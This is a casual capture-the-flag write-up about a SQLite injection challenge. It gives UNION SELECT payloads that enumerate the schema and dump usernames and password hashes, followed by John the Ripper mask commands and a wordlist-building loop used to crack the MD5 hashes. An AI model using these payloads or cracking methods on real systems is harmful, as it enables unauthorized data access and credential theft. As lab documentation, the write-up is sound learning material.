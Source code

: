 ### This is a very cool challenge, I didn't solve it (nearly, the last one take time), but, nah, just write down to remember stuff
This is a SQLite injection, how do I know it was SQLite, well fuzzing and sqlmap

So the syntax of the payload is the same but the way to extract is different:
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md

With this I get the table name is users:
%22 UNION SELECT tbl_name,2 FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' -- -

And with this I get the column name:
%22 UNION SELECT 1,sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name NOT LIKE 'sqlite_%' AND name ='users' -- -
```
CREATE TABLE users (
	username text primary key not null,
	password_hash text not null,
	hint text not null,
	bio text not null)
  ```
  From this just normal payload:
  %22 UNION SELECT username,password_hash FROM users -- -
  So what I encounter is a bunch of md5 hash with rules
  <img src="https://github.com/phulelouch/WRITE_UP/blob/master/SQL_Injection/login_page.png">
  <img src="https://github.com/phulelouch/WRITE_UP/blob/master/SQL_Injection/login_page.png">
 With that it mean we have to crack it with its rule
 - The easiest was the noob password, just google it and login 
 - Then come to the phone number, using john the ripper with mask for rule:
 	john --format=raw-md5 flag2.txt --mask=?d?d?d-?d?d?d-?d?d?d?d --fork=12
 - Next it would be Greek God + My least favorite US, so what I did was listing out some of the most popular Greek Gods and concat it with script, and just bruteforce it (faster)
 ```
 while read line; do
	while read liness; do
		echo $line$liness | tr -d ' ' 
	done < "/home/phulelouch/Desktop/US.txt"
done < "/home/phulelouch/Desktop/god.txt"
 ```
- The next one is harder, with 12 digit numbers and md5 hash, I have to create a file list of that number in md5 hash and using them as list for John
- The final one I can not solve but it is interesting: I follow 2 article
https://blog.bitcrack.net/2013/09/cracking-hashes-with-other-language.html
https://vxempire.xyz/repo/Hash%20Crack.pdf
```
john --format=raw-md5 flag1.txt  -1 d8d9dadb -2 808182838485868788898a8b8c8d8e8f909192939495969798999a9b9c9d9e9fa0a1a2a3a4a5a6a7a8a9aaabacadaeafb0b1b2b3b4b5b6b7b8b9babbbcbdbebf  --mask=?1?2?1?2?1?2?1?2?1?2?1?2 --fork=12
```
So 4 parts combie the result would be like this uiuctf{Dump_4nd_unh45h_637_d4t_
